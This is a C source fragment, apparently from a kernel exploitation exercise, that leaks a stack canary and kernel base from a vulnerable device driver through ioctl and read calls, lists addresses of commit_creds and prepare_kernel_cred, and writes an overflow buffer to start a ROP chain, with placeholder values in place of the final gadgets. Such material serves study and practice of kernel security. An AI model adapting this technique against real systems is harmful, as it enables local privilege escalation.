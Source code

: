 ```c
void close_device(void) {
    if(close(fd) == -1) {
        puts("[!] Error closing the device");
        exit(-1);
    }
    puts("[+] Device closed");
}

int main(void)
{
    
    save_state();
    uint64_t* buffer;
    buffer = mmap(BUFFER_ADDR, BUFFER_SIZE, 7, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0); //control size with mmap
    
    control_ioctl(GET_USERLAND_OFFSET, buffer); //check size
    printf("%s\n", (char*)buffer);
    memset(buffer, 0, BUFFER_SIZE);
    
    // ffffffff81000000 T _text
    // ffffffff81e010a1 T _etext
    // ffffffff81c00a2f T swapgs_restore_regs_and_return_to_usermode
    // 0xffffffff81c00b39
    // ffffffff81087e80 T commit_creds
    // ffffffff810881c0 T prepare_kernel_cred


    unsigned int read_length = 8 * 20;
    control_read(buffer, read_length);
    int i;
    for(i = 0; i < 20; i++)
    {
        printf("%llx\n", buffer[i]);
    }

    uint64_t canary = buffer[16];
    uint64_t kernel_base = buffer[18] - 0x23e347;
    memset(buffer, 0, BUFFER_SIZE);
    printf("canary: 0x%llx\n", canary);
    printf("kernel base: 0x%llx\n", kernel_base);

    control_ioctl(SET_MAX_BUFFER, buffer); //expand max length size
    memset(buffer, 0, BUFFER_SIZE);

    buffer[16] = canary;
    buffer[17] = 0x4141414142424242;
    buffer[18] = 0x4343434343434343;
    
    int write_length = 36 * 8;
    control_write(buffer, write_length); //ROP   
    return 0;
}
```
